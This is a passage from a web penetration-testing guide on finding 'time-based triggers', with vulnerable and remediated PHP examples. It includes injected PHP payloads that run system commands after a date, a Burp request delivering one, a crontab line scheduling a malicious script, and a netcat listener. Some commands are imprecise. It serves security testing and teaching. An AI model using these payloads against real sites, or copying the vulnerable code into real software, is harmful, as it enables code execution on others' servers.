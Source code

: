 **Remediation**:
- Sanitize inputs:
  ```php
  $bio = strip_tags($bio);
  ```
- Restrict file types:
  ```php
  if (!preg_match('/\.(jpg|png)$/', $_FILES['file']['name'])) die("Invalid file");
  ```

**Tip**: Save executed payload evidence in a report.

### 3. Test for Time-Based Triggers

**Objective**: Check if inputs can create delayed or scheduled malicious actions.

**Steps**:
1. Inject time-based payloads:
   - Test: `<?php if (date('Y-m-d') > '2025-06-01') { system('whoami'); } ?>`
   - Use Burp:
     ```http
     POST /comment HTTP/1.1
     Host: example.com
     Content-Type: application/x-www-form-urlencoded
     comment=<?php if (date('Y-m-d') > '2025-06-01') { system('whoami'); } ?>
     ```
2. Monitor behavior:
   - Wait for trigger condition (e.g., specific date) or simulate time change in gray-box testing.
   - Test: `<script>setTimeout(function(){malicious()}, 86400000);</script>`.
3. Check server tasks:
   - Look for cron jobs or scheduled tasks (gray-box).
   - Test: `crontab -e '0 0 * * * /tmp/malicious.sh'`.
4. Use Netcat to verify:
   ```bash
   nc -l 4444
   ```

**Example Vulnerable Code (PHP)**:
```php
$comment = $_POST['comment'];
file_put_contents("comments.php", $comment);
```
Test: `comment=<?php if (date('Y-m-d') > '2025-06-01') { system('whoami'); } ?>`
Result: Executes after date.

**Example Secure Code (PHP)**:
```php
$comment = preg_replace('/<\?php.*?\?>/', '', $_POST['comment']);
file_put_contents("comments.php", $comment);
```
Test: No execution.

**Remediation**:
- Block script tags:
  ```php
  $comment = strip_tags($comment);
  ```
- Monitor scheduled tasks:
  ```bash
  crontab -l
  ```
